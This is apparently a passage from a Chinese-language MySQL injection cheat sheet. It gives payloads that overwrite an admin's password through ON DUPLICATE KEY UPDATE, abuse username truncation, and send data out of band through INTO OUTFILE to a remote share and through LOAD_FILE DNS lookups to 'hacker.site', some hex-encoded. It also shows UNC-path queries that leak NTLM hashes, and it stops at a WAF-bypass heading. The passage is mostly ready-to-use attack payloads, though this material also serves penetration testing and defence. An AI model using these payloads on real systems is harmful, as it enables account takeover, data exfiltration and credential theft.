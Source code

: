 ```sql
INSERT INTO users (email, password) VALUES ("attacker_dummy@example.com", "BCRYPT_HASH"), ("admin@example.com", "P@ssw0rd") ON DUPLICATE KEY UPDATE password="P@ssw0rd" -- ", "BCRYPT_HASH_OF_YOUR_PASSWORD_INPUT");
```

此查询将为用户"attacker_dummy@example.com"插入一行。它还将为用户"admin@example.com"插入一行。

由于这一行已经存在，`ON DUPLICATE KEY UPDATE`关键字告诉MySQL将已经存在的行的`password`列更新为"P@ssw0rd"。之后，我们可以简单地使用"admin@example.com"和密码"P@ssw0rd"进行身份验证。


## MySQL截断

在MySQL中"`admin `"和"`admin`"是相同的。如果数据库中的用户名列有字符限制，多余的字符将被截断。因此，如果数据库的列限制为20个字符，而我们输入了一个21个字符的字符串，最后一个字符将被删除。

```sql
`username` varchar(20) not null
```

负载：`username = "admin               a"`


## MySQL带外攻击

```powershell
SELECT @@version INTO OUTFILE '\\\\192.168.0.100\\temp\\out.txt';
SELECT @@version INTO DUMPFILE '\\\\192.168.0.100\\temp\\out.txt;
```

### DNS数据泄露

```sql
SELECT LOAD_FILE(CONCAT('\\\\',VERSION(),'.hacker.site\\a.txt'));
SELECT LOAD_FILE(CONCAT(0x5c5c5c5c,VERSION(),0x2e6861636b65722e736974655c5c612e747874))
```

### UNC路径 - NTLM哈希窃取

“UNC路径”一词指的是用于指定网络上资源（如共享文件或设备）位置的通用命名约定路径。它通常用于Windows环境，通过格式如`\\server\share\file`通过网络访问文件。

```sql
SELECT LOAD_FILE('\\\\error\\abc');
SELECT LOAD_FILE(0x5c5c5c5c6572726f725c5c616263);
SELECT '' INTO DUMPFILE '\\\\error\\abc';
SELECT '' INTO OUTFILE '\\\\error\\abc';
LOAD DATA INFILE '\\\\error\\abc' INTO TABLE DATABASE.TABLE_NAME;
```

:warning: 不要忘记转义'\\\\'。


## MySQL绕过WAF

### Information Schema的替代品
